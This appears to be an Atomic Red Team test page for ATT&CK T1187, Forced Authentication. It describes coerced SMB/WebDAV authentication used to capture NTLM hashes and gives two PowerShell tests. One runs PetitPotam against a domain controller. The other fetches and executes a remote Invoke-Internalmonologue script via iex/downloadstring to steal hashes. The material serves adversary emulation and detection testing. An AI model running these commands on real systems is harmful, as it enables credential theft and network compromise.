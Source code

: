 # T1187 - Forced Authentication
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1187)
<blockquote>Adversaries may gather credential material by invoking or forcing a user to automatically provide authentication information through a mechanism in which they can intercept.

The Server Message Block (SMB) protocol is commonly used in Windows networks for authentication and communication between systems for access to resources and file sharing. When a Windows system attempts to connect to an SMB resource it will automatically attempt to authenticate and send credential information for the current user to the remote system. (Citation: Wikipedia Server Message Block) This behavior is typical in enterprise environments so that users do not need to enter credentials to access network resources.

Web Distributed Authoring and Versioning (WebDAV) is also typically used by Windows systems as a backup protocol when SMB is blocked or fails. WebDAV is an extension of HTTP and will typically operate over TCP ports 80 and 443. (Citation: Didier Stevens WebDAV Traffic) (Citation: Microsoft Managing WebDAV Security)

Adversaries may take advantage of this behavior to gain access to user account hashes through forced SMB/WebDAV authentication. An adversary can send an attachment to a user through spearphishing that contains a resource link to an external server controlled by the adversary (i.e. [Template Injection](https://attack.mitre.org/techniques/T1221)), or place a specially crafted file on navigation path for privileged accounts (e.g. .SCF file placed on desktop) or on a publicly accessible share to be accessed by victim(s). When the user's system accesses the untrusted resource it will attempt authentication and send information, including the user's hashed credentials, over SMB to the adversary controlled server. (Citation: GitHub Hashjacking) With access to the credential hash, an adversary can perform off-line [Brute Force](https://attack.mitre.org/techniques/T1110) cracking to gain access to plaintext credentials. (Citation: Cylance Redirect to SMB)

There are several different ways this can occur. (Citation: Osanda Stealing NetNTLM Hashes) Some specifics from in-the-wild use include:

* A spearphishing attachment containing a document with a resource that is automatically loaded when the document is opened (i.e. [Template Injection](https://attack.mitre.org/techniques/T1221)). The document can include, for example, a request similar to <code>file[:]//[remote address]/Normal.dotm</code> to trigger the SMB request. (Citation: US-CERT APT Energy Oct 2017)
* A modified .LNK or .SCF file with the icon filename pointing to an external reference such as <code>\\[remote address]\pic.png</code> that will force the system to load the resource when the icon is rendered to repeatedly gather credentials. (Citation: US-CERT APT Energy Oct 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PetitPotam](#atomic-test-1---petitpotam)

- [Atomic Test #2 - WinPwn - PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS](#atomic-test-2---winpwn---powersharppack---retrieving-ntlm-hashes-without-touching-lsass)


<br/>

## Atomic Test #1 - PetitPotam
This module runs the Windows executable of PetitPotam in order to coerce authentication for a remote system.

**Supported Platforms:** Windows


**auto_generated_guid:** 485ce873-2e65-4706-9c7e-ae3ab9e14213





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| captureServerIP | Computer IP to use to receive the authentication (ex. attacker machine used for NTLM relay) | string | 10.0.0.3|
| targetServerIP | Computer IP to force authentication from (ex. domain controller) | string | 10.0.0.2|
| efsApi | EFS API to use to coerce authentication | integer | 1|
| petitpotam_path | PetitPotam Windows executable | path | $env:TEMP&#92;PetitPotam.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
& "#{petitpotam_path}" #{captureServerIP} #{targetServerIP} #{efsApi}
Write-Host "End of PetitPotam attack"
```




#### Dependencies:  Run with `powershell`!
##### Description: PetitPotam binary must exist on disk and at specified location (#{petitpotam_path}).
And the computer must be domain joined (implicit authentication).
##### Check Prereq Commands:
```powershell
if (Test-Path "#{petitpotam_path}") { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/topotam/PetitPotam/blob/2ae559f938e67d0cd59c5afcaac67672b9ef2981/PetitPotam.exe?raw=true" -OutFile "#{petitpotam_path}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS
PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7f06b25c-799e-40f1-89db-999c9cc84317






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Internalmonologue.ps1')
Invoke-Internalmonologue -command "-Downgrade true -impersonate true -restore true"
```






<br/>
